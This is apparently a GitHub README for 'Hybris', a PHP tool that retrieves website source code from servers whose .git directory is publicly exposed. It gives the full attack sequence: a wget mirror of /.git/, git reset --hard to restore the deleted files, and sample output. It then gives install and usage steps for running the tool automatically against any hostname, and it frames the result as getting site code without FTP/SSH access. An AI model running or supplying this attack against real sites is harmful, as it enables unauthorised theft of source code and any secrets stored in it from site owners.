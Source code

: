 # Hybris

## Genesis

#### The .git directory

So, let’s begin. When you create a git repo, using git init, git creates this wonderful directory: the .git. This folder contains all the informations needed for git to work. To be clear, if you want to remove git from your project, but keep your project files, just delete the .git folder. But come on, why would you do that?


#### Lazy developer

Sometimes developers use git also to make deploys to server. They going to public directory with initialized git repository and execute pull command.
```bash
$ git pull
```

Code will be update up to server and .git dir will be exists

#### Bad Apache2 configuration

If on apache2 DirectoryListing is enabled you can go to .git directory by browser and see all config and object files
```
http://example.com/.git/
```

Like that:

```
Index of /.git
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-
[   ]	HEAD	2018-11-21 22:21	23
[DIR]	branches/	2018-11-21 22:21	-
[   ]	config	2018-11-21 22:21	271
[   ]	description	2018-11-21 22:21	73
[DIR]	hooks/	2018-11-21 22:21	-
[   ]	index	2018-11-21 22:21	617
[DIR]	info/	2018-11-21 22:21	-
[DIR]	logs/	2018-11-21 22:21	-
[DIR]	objects/	2018-11-21 22:21	-
[   ]	packed-refs	2018-11-21 22:21	107
[DIR]	refs/	2018-11-21 22:21	-
Apache/2.4.18 (Ubuntu) Server at grabower.me Port 80
```

### Attack method

At first you have to download mirror of .git directory:

```bash
$ wget --mirror -I .git http://example.com/.git/ -q --show-progress
```

Next go to downloaded directory

```bash
$ cd example.com
```

Right now you are on something like git repository with removed all files.

```bash
$ git status
```

```bash
On branch master
Your branch is up-to-date with 'origin/master'.
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git checkout -- <file>..." to discard changes in working directory)

	deleted:    CliAlert.php
	deleted:    CliComponent.php
	deleted:    CliFormat.php
	deleted:    CliText.php
	deleted:    CliTypo.php
	deleted:    README.md
	deleted:    composer.json

no changes added to commit (use "git add" and/or "git commit -a")

```

So if file was removed you can reset status of repository and recreate files..

```bash
$ git reset --hard
```

```bash
HEAD is now at 8d87069 update doc
```

Results?
```bash
$ ls -all
```

```bash
total 80
drwxr-xr-x  10 adriangrabowski  staff   320 Nov 22 09:09 .
drwxr-xr-x+ 93 adriangrabowski  staff  2976 Nov 22 09:07 ..
drwxr-xr-x  23 adriangrabowski  staff   736 Nov 22 09:10 .git
-rw-r--r--   1 adriangrabowski  staff  1061 Nov 22 09:09 CliAlert.php
-rw-r--r--   1 adriangrabowski  staff  6213 Nov 22 09:09 CliComponent.php
-rw-r--r--   1 adriangrabowski  staff  6592 Nov 22 09:09 CliFormat.php
-rw-r--r--   1 adriangrabowski  staff  2138 Nov 22 09:09 CliText.php
-rw-r--r--   1 adriangrabowski  staff   610 Nov 22 09:09 CliTypo.php
-rw-r--r--   1 adriangrabowski  staff  7829 Nov 22 09:09 README.md
-rw-r--r--   1 adriangrabowski  staff   651 Nov 22 09:09 composer.json
```

All files from repository are restored, so you have a webpage code without access to FTP/SSH servers :)

## Hybris tool as automatic attack

### Requirements

Code is written in PHP with composer libraries. To run this code you have to install:

* git
* php >= 5.6
* composer

### Instalation

Clone Hybris repository
```bash
$ git clone https://github.com/adriangrabowski/hybris.git
$ cd hybris
```

Install composer libraries
```bash
$ composer update
```

Done :)

### Usage

Very simple :)

```bash
$ php hybris.php [hostname]
```

```bash
$ php hybris.php example.com
```

Code will verify /.git/ directory exist. If no

```bash
$ php hybris.php google.com

***********************************************************************
*                 Git directory not exist on web page                 *
***********************************************************************
```

In /.git/ directory will be exist on server script automatically create mirror and restore files of webpage in '**output**' directory